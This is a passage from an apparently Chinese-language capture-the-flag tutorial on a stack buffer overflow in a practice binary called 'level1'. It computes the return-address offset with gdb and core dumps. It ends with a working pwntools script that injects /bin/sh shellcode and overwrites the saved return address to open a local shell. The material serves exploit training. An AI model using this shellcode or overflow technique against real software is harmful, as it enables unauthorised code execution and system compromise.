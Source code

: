 然后就是确认溢出点（栈的eip）的位置，使用作者提供的``pattern.py``脚本进行计算。创建200字节的测试字符串

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191106225249.png)

然后``gdb ./level1``调试程序，``r``运行程序后输入测试字符串，得到内存出错地址：

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191106225456.png)

查询偏移量，这里的偏移量是指从变量写入处到eip顶内存长度。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191106225615.png)

当然，可以自己手动计算。偏移量=0x88+0x4=140。0x4为ebp，0x88为变量空间。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5rop.png)

只要构造一个`[shellcode][“AAAAAAAAAAAAAA”….][ret]`字符串，就可以让pc执行ret地址上的代码了。也就是需要知道shellcode所在的内存地址

这里注意的是用gdb调试程序，然后查内存来确定的shellcode所在位置，是错误的。因为gdb会影响buf的内存位置，即使是关闭ALSR。解决办法之一就是开启 ``core dump``

```shell
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```

开启之后，再次输入测试字符串（或长度大于144的字符串），因此程序内存错误，使系统在``/tmp``生成一个``core dump``文件。用gdb查看这个core文件得到真正的buf地址（本机是0xffffcec0，每台机不一样，请实际操作一下）。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191106235329.png)

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191106235400.png)

本地EXP

> 函数、gadget等地址，可能因电脑不同而不一致。请动手操作，获取本机相关地址后，自行替换

```python
#encoding:utf-8
from pwn import *

context.log_level = 'debug'

p = process("./level1")

ret_address = 0xffffcec0 # 请修改为你获取的shellcode所在的内存地址
# shellcode 可以用msf生成，或者去github找一个，注意长度!
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

payload = shellcode + 'a'*(0x88+0x4-len(shellcode)) + p32(ret_address)

p.send(payload) 
p.interactive() # 释放控制权
```
